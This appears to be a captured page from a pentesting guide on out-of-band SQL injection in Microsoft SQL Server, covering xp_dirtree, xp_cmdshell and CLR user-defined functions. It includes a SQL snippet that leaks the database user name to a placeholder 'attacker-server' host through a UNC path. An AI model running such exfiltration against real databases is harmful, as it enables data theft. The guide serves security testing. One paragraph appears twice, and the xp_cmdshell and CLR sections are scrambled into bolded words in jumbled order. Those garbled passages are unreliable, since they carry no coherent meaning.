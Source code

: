 Stored procedures like `xp_dirtree`, though not officially documented by Microsoft, have been described by others online due to their utility in network operations within MSSQL. These procedures are often used in Out of Band Data exfiltration, as showcased in various [examples](https://www.notsosecure.com/oob-exploitation-cheatsheet/) and [posts](https://gracefulsecurity.com/sql-injection-out-of-band-exploitation/).

The `xp_dirtree` stored procedure, for instance, is used to make network requests, but it's limited to only TCP port 445. The port number isn't modifiable, but it allows reading from network shares. The usage is demonstrated in the SQL script below:

### `xp_dirtree`, `xp_fileexists`, `xp_subdirs` <a href="#limited-ssrf-using-master-xp-dirtree-and-other-file-stored-procedures" id="limited-ssrf-using-master-xp-dirtree-and-other-file-stored-procedures"></a>

Stored procedures like `xp_dirtree`, though not officially documented by Microsoft, have been described by others online due to their utility in network operations within MSSQL. These procedures are often used in Out of Band Data exfiltration, as showcased in various [examples](https://www.notsosecure.com/oob-exploitation-cheatsheet/) and [posts](https://gracefulsecurity.com/sql-injection-out-of-band-exploitation/).

The `xp_dirtree` stored procedure, for instance, is used to make network requests, but it's limited to only TCP port 445. The port number isn't modifiable, but it allows reading from network shares. The usage is demonstrated in the SQL script below:
```sql
DECLARE @user varchar(100);
SELECT @user = (SELECT user);
EXEC ('master..xp_dirtree "\\' + @user + '.attacker-server\\aa"');
```
**mssql-injection.md**

---

### `xp_cmdshell` <a href="#master-xp-cmdshell" id="master-xp-cmdshell"></a>

**xp_cmdshell** **execute** **SSRF** **trigger** **something** **use** **could** **Also** **info** **read** **relevant section** **page**:

{% content-ref url="../../network-services-pentesting/pentesting-mssql-microsoft-sql-server/" %}
[pentesting-mssql-microsoft-sql-server](../../network-services-pentesting/pentesting-mssql-microsoft-sql-server/)
{% endcontent-ref %}

### MSSQL User Defined Function - SQLHttp <a href="#mssql-user-defined-function-sqlhttp" id="mssql-user-defined-function-sqlhttp"></a>

**CLR UDF** (Common Language Runtime User Defined Function) **Creating**, **authored** **code** **DLL** **compiled**, **language** **.NET** **any** **in**, **loaded** **be** **MSSQL** **within** **functions** **custom** **executing**, **requires** **process** **is** **access** **dbo**. **means** **usually** **feasible** **only** **role** **Administrator** **an** **with** **or** **sa** **as** **connection** **database** **the** **when** **only** **usually** **is**.
